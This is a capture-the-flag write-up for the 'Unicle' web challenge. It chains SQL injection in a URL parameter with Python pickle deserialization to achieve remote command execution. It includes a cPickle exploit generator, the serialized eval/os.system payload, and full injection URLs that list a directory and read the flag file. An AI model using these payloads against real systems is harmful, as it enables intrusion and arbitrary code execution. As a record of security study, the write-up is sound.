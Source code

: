 # Unicle (Web, 200pts)

## Problem

OSaaS is the new trend for 2016! Store your object directly in the cloud. Get rid of the hassle of managing your own storage for object with Osaas. Unickle currently offers a beta version that demonstrates how OSaaS will make the internet a better place... One object at a time!!

http://54.84.124.93/

![Unicle application]
(unicle01.png)

## Solution

After opening url, there's a simple HTML table with all stored objects. There's only one parameter I could manipulate - Category id (cat).

### Phase one - SQL Injection

Quick research revealed that 'cat' parameter is vulnerable to SQL Injection. Valid payload should contain standard characters used in attacks based on SQLi (like + as space, /**/ as comment and so on).

First payload I've used and was fine, looks like this one (I used four columns in _union_ statement, because displayed HTML table had four columns and I've assumed four is good number to start from :) ):

```bash
http://54.84.124.93/?cat=2%2b1+and+1=1+union+select+1,2,3,4/**/
```

After some attempts to read eg. MySQL version via _version()_ I've realized that this is not MySQL database and one of the payload returned such result in the browser:

```bash
http://54.84.124.93/?cat=2+union+select+1,2,%22aaa%22,4/**/
```

![SQLi]
(unicle02.png)

That was something new for me, so I've tried some other payloads:

```bash
http://54.84.124.93/?cat=2+union+select+1,2,%22Magic%20Box%22,4/**/
```

and the result in first row in column Value was: "could not find MARK", also this payload:

```bash
http://54.84.124.93/?cat=2+union+select+1,2,%22{aa,bb}%22,4/**/
```

returned in the same place error message "invalid load key, '{'."

Quick session with Google told me that such error messages points I'm playing with Pickle Python module, which is used to serialization and deserialization of Python objects (https://docs.python.org/3.4/library/pickle.html). Two, maybe three blog posts later (linked at the end of this writeup) I had, more or less, some idea how can I use this vector to get the flag.


### Phase two - Remote Code Execution via Pickle module

As I've assumed that third column contains serialized Python object, which is deserialized on the backend side, I've started to create and inject simple exploits to get some valuable response.


I've used for this simple Pickle exploit generator (from Nelson Elhage's blog - https://twitter.com/nelhage - linked below):


```python
#!/usr/bin/python
import os
import cPickle
import base64

# Exploit that we want the target to unpickle
class Exploit(object):
    def __reduce__(self):
        return (eval, ("os.system('ls -l')",))

shellcode = cPickle.dumps(Exploit())
print shellcode
```


Generated exploit looks like this:


```bash
$ ./cpicke_exploit.py 
c__builtin__
eval
p1
(S"os.system('ls -l')"
p2
tp3
Rp4
.

```

To get this exploit working in injection payload, I had to use _%0A_ as a separator between every line of above output (to be sure that Pickle deserializes payload in right way).

Here's an example how to get result of _ls -l_ command:

```bash
http://54.84.124.93/?cat=1+and+1=2+union+select+1,2,%22c__builtin__%0Aeval%0A%28S%27os.listdir%28%27var/www%27%29%27%0AtR.%22,4/**/
```

And a result in Burp Repeater:

![ls -l result]
(unicle04.png)


So there's a _flag_ file directly in _/var/www_ directory, so let's get it!


```bash

http://54.84.124.93/?cat=1+and+1=2+union+select+1,2,%22c__builtin__%0Aeval%0A%28S%27os.popen%28%27cat%20/var/www/flag%27%29.readlines%28%29%27%0AtR.%22,4/**/
```

And the flag is:


![flag]
(unicle_flag.png)

## Summary

I've spent a lot of time on this task, because I had no experience with web application based on used technologies - as you can see _vulnerable.py_ file (which I saved just by curiosity, how the code looks like) - there's a **Flask** Python framework and **SQLAlchemy** simple ORM for Flask. Also I've never exploit Pickle code injection vulnerability in the wild before - so I've learnt a lot while working on this task. 


## Links

Exploiting Misuse of Python's "Pickle"          
https://blog.nelhage.com/2011/03/exploiting-pickle/

Playing with Pickle Security    
https://lincolnloop.com/blog/playing-pickle-security/

Flask			
http://flask.pocoo.org/

SQLAlchemy		
http://flask-sqlalchemy.pocoo.org/2.1/
